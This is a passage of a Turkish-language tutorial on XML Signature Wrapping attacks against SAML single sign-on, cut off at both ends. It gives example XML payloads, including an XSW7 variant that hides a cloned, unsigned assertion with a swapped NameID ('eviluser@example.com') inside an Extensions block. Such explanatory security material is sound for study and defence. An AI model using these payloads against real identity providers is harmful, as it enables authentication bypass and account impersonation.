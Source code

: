 ```
    <NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
    <SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
      <SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
    </SubjectConfirmation>
  </Subject>
  <Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
    <AudienceRestriction>
      <Audience>https://service-provider.com</Audience>
    </AudienceRestriction>
  </Conditions>
  <AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a">
    <AuthnContext>
      <AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
    </AuthnContext>
  </AuthnStatement>
</Assertion>

```
Yukarıdaki örnekte, Assertion'ın kopyalarının `_e55c9c3e8e9f6744e6e8d18d5f7fdd5a` ve `_e55c9c3e8e9f6744e6e8d18d5f7fdd5b` ID değerleri ile ayırt edildiğini görebilirsiniz. Değiştirilmiş Assertion, ID değerinin yanı sıra diğer XML alanlarında da değişiklikler içerir. Saldırgan, bu değiştirilmiş Assertion'ı imzanın hemen ardına eklerken, orijinal Assertion'ı imzasız bir kopya olarak ekler. Böylece, hizmet sağlayıcı, imzalı Assertion'ı doğrulayacak olsa bile, değiştirilmiş Assertion'ı kabul eder ve saldırganın manipülasyonunu gerçekleştirir.

- XSW7 :// bir SAML Assertion mesajına klonlanmış, imzasız bir Assertion içeren bir "Extensions" bloğunun eklenmesiyle gerçekleştirilir. Bu şekilde, saldırgan kendi manipüle edilmiş Assertion'ını, orijinal Assertion ile birlikte SAML mesajına ekler.

```
<Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5b" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
  <Issuer>https://identity-provider.com</Issuer>
  <Subject>
    <NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
    <SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
      <SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
    </SubjectConfirmation>
  </Subject>
  <Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
    <AudienceRestriction>
      <Audience>https://service-provider.com</Audience>
    </AudienceRestriction>
  </Conditions>
  <AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5b">
    <AuthnContext>
      <AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
    </AuthnContext>
  </AuthnStatement>
  <Extensions>
    <!-- Klonlanmış, imzasız Assertion -->
    <Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
      <Issuer>https://identity-provider.com</Issuer>
      <Subject>
        <NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">eviluser@example.com</NameID>
        <SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
```